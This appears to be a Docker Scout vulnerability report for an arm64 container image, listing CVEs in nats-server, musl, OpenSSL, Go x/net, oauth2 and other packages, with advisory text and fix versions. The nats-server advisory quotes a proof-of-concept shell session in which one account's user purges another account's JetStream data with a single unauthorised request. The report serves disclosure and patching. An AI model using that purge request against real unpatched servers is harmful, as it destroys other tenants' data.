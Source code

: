 ```yaml
---
hide_table_of_contents: true
---
```


<table>
<tr><td>digest</td><td><code>sha256:bc8851cbe2cc55dfd2129f65f1a08baf671f44e68a5625e603f6a14e96b1008f</code></td><tr><tr><td>vulnerabilities</td><td><img alt="critical: 1" src="https://img.shields.io/badge/critical-1-8b1924"/> <img alt="high: 3" src="https://img.shields.io/badge/high-3-e25d68"/> <img alt="medium: 7" src="https://img.shields.io/badge/medium-7-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/low-0-lightgrey"/> <!-- unspecified: 0 --></td></tr>
<tr><td>platform</td><td>linux/arm64</td></tr>
<tr><td>size</td><td>63 MB</td></tr>
<tr><td>packages</td><td>209</td></tr>
</table>
</details></table>
</details>

<table>
<tr><td valign="top">
<details><summary><img alt="critical: 1" src="https://img.shields.io/badge/C-1-8b1924"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/nats-io/nats-server/v2</strong> <code>2.11.0</code> (golang)</summary>

<small><code>pkg:golang/github.com/nats-io/nats-server@2.11.0#v2</code></small><br/>

```dockerfile
# api-server.Dockerfile (36:36)
COPY --from=build /app /bin/app
```

<br/>

<a href="https://scout.docker.com/v/CVE-2025-30215?s=github&n=v2&ns=github.com%2Fnats-io%2Fnats-server&t=golang&vr=%3E%3D2.11.0-RC.1%2C%3C2.11.1"><img alt="critical 9.6: CVE--2025--30215" src="https://img.shields.io/badge/CVE--2025--30215-lightgrey?label=critical%209.6&labelColor=8b1924"/></a> <i>Improper Authorization</i>

<table>
<tr><td>Affected range</td><td><code>>=2.11.0-RC.1<br/><2.11.1</code></td></tr>
<tr><td>Fixed version</td><td><code>2.11.1</code></td></tr>
<tr><td>CVSS Score</td><td><code>9.6</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.032%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>8th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

## Advisory

The management of JetStream assets happens with messages in the `$JS.` subject namespace in the system account; this is partially exposed into regular accounts to allow account holders to manage their assets.

Some of the JS API requests were missing access controls, allowing any user with JS management permissions in any account to perform certain administrative actions on any JS asset in any other account. At least one of the unprotected APIs allows for data destruction. None of the affected APIs allow disclosing stream contents.

### Affected versions

NATS Server:
 * Version 2 from v2.2.0 onwards, prior to v2.11.1 or v2.10.27

-----

## Original Report

(Lightly edited to confirm some supposition and in the summary to use past tense)

### Summary

nats-server did not include authorization checks on 4 separate admin-level JetStream APIs: account purge, server remove,  account stream move, and  account stream cancel-move.

In all cases, APIs are not properly restricted to system-account users. Instead, _any_ authorized user can execute the APIs, including across account boundaries, as long as the current user merely has permission to publish on `$JS.>`.

Only the first seems to be of highest severity. All are included in this single report as they seem likely to have the same underlying root cause.

Reproduction of the `ACCOUNT.PURGE` case is below. The others are like it.


### Details & Impact

#### Issue 1: `$JS.API.ACCOUNT.PURGE.*`

Any user may perform an account purge of any other account (including their own).

Risk: total destruction of Jetstream configuration and data.


#### Issue 2: `$JS.API.SERVER.REMOVE`

Any user may remove servers from Jetstream clusters.

Risk: Loss of data redundancy, reduction of service quality.


#### Issue 3: `$JS.API.ACCOUNT.STREAM.MOVE.*.*` and `CANCEL_MOVE`

Any user may cause streams to be moved between servers.

Risk: loss of control of data provenance, reduced service quality during move, enumeration of account and/or stream names.

Similarly for `$JS.API.ACCOUNT.STREAM.CANCEL_MOVE.*.*`


#### Mitigations

It appears that users without permission to publish on `$JS.API.ACCOUNT.>` or `$JS.API.SERVER.>` are unable to execute the above APIs.

Unfortunately, in many configurations, an 'admin' user for a single account will be given permissions for `$JS.>` (or simply `>`), which allows the improper access to the system APIs above.


#### Scope of impact

Issues 1 and 3 both cross boundaries between accounts, violating promised account isolation. All 3 allow system level access to non-system account users.

While I cannot speak to what authz configurations are actually found in the wild, per the discussion in Mitigations above, it seems likely that at least some configurations are vulnerable.


#### Additional notes

It appears that `$JS.API.META.LEADER.STEPDOWN` does properly restrict to system account users. As such, this may be a pattern for how to properly authorize these other APIs.



### PoC

#### Environment

Tested with:
nats-server 2.10.26 (installed via homebrew)
nats cli 0.1.6 (installed via homebrew)
macOS 13.7.4


#### Reproduction steps

```
$ nats-server --version
nats-server: v2.10.26

$ nats --version
0.1.6

$ cat nats-server.conf
listen: '0.0.0.0:4233'
jetstream: {
  store_dir: './tmp'
}
accounts: {
  '$SYS': {
    users: [{user: 'sys', password: 'sys'}]
  },
  'TEST': {
    jetstream: true,
    users: [{user: 'a', password: 'a'}]
  },
  'TEST2': {
    jetstream: true,
    users: [{user: 'b', password: 'b'}]
  }
}

$ nats-server -c ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.494663 [INF] Using configuration file: ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.496395 [INF] Listening for client connections on 0.0.0.0:4233
...

# Authentication is effectively enabled by the server:
$ nats -s nats://localhost:4233 account info
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user sys --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user a --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user b --password wrong
nats: error: setup failed: nats: Authorization Violation

# Valid credentials work, and users properly matched to accounts:
$ nats -s nats://localhost:4233 account info --user sys --password sys
Account Information
                      User: sys
                   Account: $SYS
...

$ nats -s nats://localhost:4233 account info --user a --password a
Account Information
                           User: a
                        Account: TEST
...

$ nats -s nats://localhost:4233 account info --user b --password b
Account Information
                           User: b
                        Account: TEST2
...

# Add a stream and messages to account TEST (user 'a'):
$ nats -s nats://localhost:4233 --user a --password a stream add stream1 --subjects s1 --storage file --defaults
Stream stream1 was created
...

$ nats -s nats://localhost:4233 --user a --password a publish s1 --count 3 "msg {{Count}}"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"

# Messages are correctly persisted on account TEST, and not on TEST2:
$ nats -s nats://localhost:4233 --user a --password a stream ls
╭───────────────────────────────────────────────────────────────────────────────╮
│                                    Streams                                    │
├─────────┬─────────────┬─────────────────────┬──────────┬───────┬──────────────┤
│ Name    │ Description │ Created             │ Messages │ Size  │ Last Message │
├─────────┼─────────────┼─────────────────────┼──────────┼───────┼──────────────┤
│ stream1 │             │ 2025-03-02 11:48:49 │ 3        │ 111 B │ 46.01s       │
╰─────────┴─────────────┴─────────────────────┴──────────┴───────┴──────────────╯

$ nats -s nats://localhost:4233 --user b --password b stream ls
No Streams defined

$ du -h tmp/jetstream
  0B	tmp/jetstream/TEST/streams/stream1/obs
8.0K	tmp/jetstream/TEST/streams/stream1/msgs
 16K	tmp/jetstream/TEST/streams/stream1
 16K	tmp/jetstream/TEST/streams
 16K	tmp/jetstream/TEST
 16K	tmp/jetstream

# User b (account TEST2) sends a PURGE command for account TEST (user a).
# According to the source comments, user b shouldn't even be able to purge it's own account, much less another one.
$ nats -s nats://localhost:4233 --user b --password b request '$JS.API.ACCOUNT.PURGE.TEST' ''
11:54:50 Sending request on "$JS.API.ACCOUNT.PURGE.TEST"
11:54:50 Received with rtt 1.528042ms
{"type":"io.nats.jetstream.api.v1.account_purge_response","initiated":true}

# From nats-server in response to the purge request:
[90608] 2025/03/02 11:54:50.277144 [INF] Purge request for account TEST (streams: 1, hasAccount: true)

# And indeed, the stream data is gone on account TEST:
$ du -h tmp/jetstream
  0B	tmp/jetstream

$ nats -s nats://localhost:4233 --user a --password a stream ls
No Streams defined

```

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>musl</strong> <code>1.2.5-r0</code> (apk)</summary>

<small><code>pkg:apk/alpine/musl@1.2.5-r0?arch=aarch64&distro=alpine-3.20.3</code></small><br/>

```dockerfile
# api-server.Dockerfile (33:33)
FROM ${ALPINE_IMAGE}
```

<br/>

<a href="https://scout.docker.com/v/CVE-2025-26519?s=alpine&n=musl&ns=alpine&t=apk&osn=alpine&osv=3.20&vr=%3C1.2.5-r1"><img alt="high : CVE--2025--26519" src="https://img.shields.io/badge/CVE--2025--26519-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;1.2.5-r1</code></td></tr>
<tr><td>Fixed version</td><td><code>1.2.5-r1</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.010%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>1st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>



</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>libexpat</strong> <code>2.6.4-r0</code> (apk)</summary>

<small><code>pkg:apk/alpine/libexpat@2.6.4-r0?arch=aarch64&distro=alpine-3.20.3&upstream=expat</code></small><br/>

```dockerfile
# api-server.Dockerfile (34:34)
RUN apk --no-cache add ca-certificates libssl3 git
```

<br/>

<a href="https://scout.docker.com/v/CVE-2024-8176?s=alpine&n=expat&ns=alpine&t=apk&osn=alpine&osv=3.20&vr=%3C2.7.0-r0"><img alt="high : CVE--2024--8176" src="https://img.shields.io/badge/CVE--2024--8176-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;2.7.0-r0</code></td></tr>
<tr><td>Fixed version</td><td><code>2.7.0-r0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.399%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>60th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>



</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/oauth2</strong> <code>0.26.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/oauth2@0.26.0</code></small><br/>

```dockerfile
# api-server.Dockerfile (36:36)
COPY --from=build /app /bin/app
```

<br/>

<a href="https://scout.docker.com/v/CVE-2025-22868?s=golang&n=oauth2&ns=golang.org%2Fx&t=golang&vr=%3C0.27.0"><img alt="high : CVE--2025--22868" src="https://img.shields.io/badge/CVE--2025--22868-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;0.27.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.27.0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.063%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>20th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

An attacker can pass a malicious malformed token which causes unexpected memory to be consumed during parsing.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 3" src="https://img.shields.io/badge/M-3-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>libssl3</strong> <code>3.3.2-r0</code> (apk)</summary>

<small><code>pkg:apk/alpine/libssl3@3.3.2-r0?arch=aarch64&distro=alpine-3.20.3&upstream=openssl</code></small><br/>

```dockerfile
# api-server.Dockerfile (33:33)
FROM ${ALPINE_IMAGE}
```

<br/>

<a href="https://scout.docker.com/v/CVE-2024-12797?s=alpine&n=openssl&ns=alpine&t=apk&osn=alpine&osv=3.20&vr=%3C3.3.3-r0"><img alt="medium : CVE--2024--12797" src="https://img.shields.io/badge/CVE--2024--12797-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;3.3.3-r0</code></td></tr>
<tr><td>Fixed version</td><td><code>3.3.3-r0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.154%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>37th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>



</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-9143?s=alpine&n=openssl&ns=alpine&t=apk&osn=alpine&osv=3.20&vr=%3C3.3.2-r1"><img alt="medium : CVE--2024--9143" src="https://img.shields.io/badge/CVE--2024--9143-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;3.3.2-r1</code></td></tr>
<tr><td>Fixed version</td><td><code>3.3.2-r1</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.303%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>53rd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>



</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2024-13176?s=alpine&n=openssl&ns=alpine&t=apk&osn=alpine&osv=3.20&vr=%3C3.3.2-r2"><img alt="medium : CVE--2024--13176" src="https://img.shields.io/badge/CVE--2024--13176-lightgrey?label=medium%20&labelColor=fbb552"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;3.3.2-r2</code></td></tr>
<tr><td>Fixed version</td><td><code>3.3.2-r2</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.024%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>5th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>



</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 2" src="https://img.shields.io/badge/M-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/net</strong> <code>0.34.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/net@0.34.0</code></small><br/>

```dockerfile
# api-server.Dockerfile (36:36)
COPY --from=build /app /bin/app
```

<br/>

<a href="https://scout.docker.com/v/CVE-2025-22872?s=github&n=net&ns=golang.org%2Fx&t=golang&vr=%3C0.38.0"><img alt="medium 5.3: CVE--2025--22872" src="https://img.shields.io/badge/CVE--2025--22872-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')</i>

<table>
<tr><td>Affected range</td><td><code>&lt;0.38.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.38.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:N/VA:N/SC:L/SI:L/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.021%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>4th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The tokenizer incorrectly interprets tags with unquoted attribute values that end with a solidus character (/) as self-closing. When directly using Tokenizer, this can result in such tags incorrectly being marked as self-closing, and when using the Parse functions, this can result in content following such tags as being placed in the wrong scope during DOM construction, but only when tags are in foreign content (e.g. <math>, <svg>, etc contexts).

</blockquote>
</details>

<a href="https://scout.docker.com/v/CVE-2025-22870?s=github&n=net&ns=golang.org%2Fx&t=golang&vr=%3C0.36.0"><img alt="medium 4.4: CVE--2025--22870" src="https://img.shields.io/badge/CVE--2025--22870-lightgrey?label=medium%204.4&labelColor=fbb552"/></a> <i>Misinterpretation of Input</i>

<table>
<tr><td>Affected range</td><td><code>&lt;0.36.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.36.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>4.4</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.011%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>1st percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

Matching of hosts against proxy patterns can improperly treat an IPv6 zone ID as a hostname component. For example, when the NO_PROXY environment variable is set to "*.example.com", a request to "[::1%25.example.com]:80` will incorrectly match and not be proxied.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/vektah/gqlparser/v2</strong> <code>2.5.2-0.20230422221642-25e09f9d292d</code> (golang)</summary>

<small><code>pkg:golang/github.com/vektah/gqlparser@2.5.2-0.20230422221642-25e09f9d292d#v2</code></small><br/>

```dockerfile
# api-server.Dockerfile (36:36)
COPY --from=build /app /bin/app
```

<br/>

<a href="https://scout.docker.com/v/CVE-2023-49559?s=github&n=v2&ns=github.com%2Fvektah%2Fgqlparser&t=golang&vr=%3C2.5.14"><img alt="medium 5.3: CVE--2023--49559" src="https://img.shields.io/badge/CVE--2023--49559-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Uncontrolled Resource Consumption</i>

<table>
<tr><td>Affected range</td><td><code>&lt;2.5.14</code></td></tr>
<tr><td>Fixed version</td><td><code>2.5.14</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.061%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>20th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

An issue in vektah gqlparser open-source-library v.2.5.10 allows a remote attacker to cause a denial of service via a crafted script to the parserDirectives function.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>gopkg.in/square/go-jose.v2</strong> <code>2.6.0</code> (golang)</summary>

<small><code>pkg:golang/gopkg.in/square/go-jose.v2@2.6.0</code></small><br/>

```dockerfile
# api-server.Dockerfile (36:36)
COPY --from=build /app /bin/app
```

<br/>

<a href="https://scout.docker.com/v/CVE-2024-28180?s=github&n=go-jose.v2&ns=gopkg.in%2Fsquare&t=golang&vr=%3C%3D2.6.0"><img alt="medium 4.3: CVE--2024--28180" src="https://img.shields.io/badge/CVE--2024--28180-lightgrey?label=medium%204.3&labelColor=fbb552"/></a> <i>Improper Handling of Highly Compressed Data (Data Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;=2.6.0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>4.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.247%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>48th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact
An attacker could send a JWE containing compressed data that used large amounts of memory and CPU when decompressed by Decrypt or DecryptMulti. Those functions now return an error if the decompressed data would exceed 250kB or 10x the compressed size (whichever is larger). Thanks to Enze Wang@Alioth and Jianjun Chen@Zhongguancun Lab (@zer0yu and @chenjj) for reporting.

### Patches
The problem is fixed in the following packages and versions:
- github.com/go-jose/go-jose/v4 version 4.0.1
- github.com/go-jose/go-jose/v3 version 3.0.3
- gopkg.in/go-jose/go-jose.v2 version 2.6.3

The problem will not be fixed in the following package because the package is archived:
- gopkg.in/square/go-jose.v2

</blockquote>
</details>
</details></td></tr>
</table>

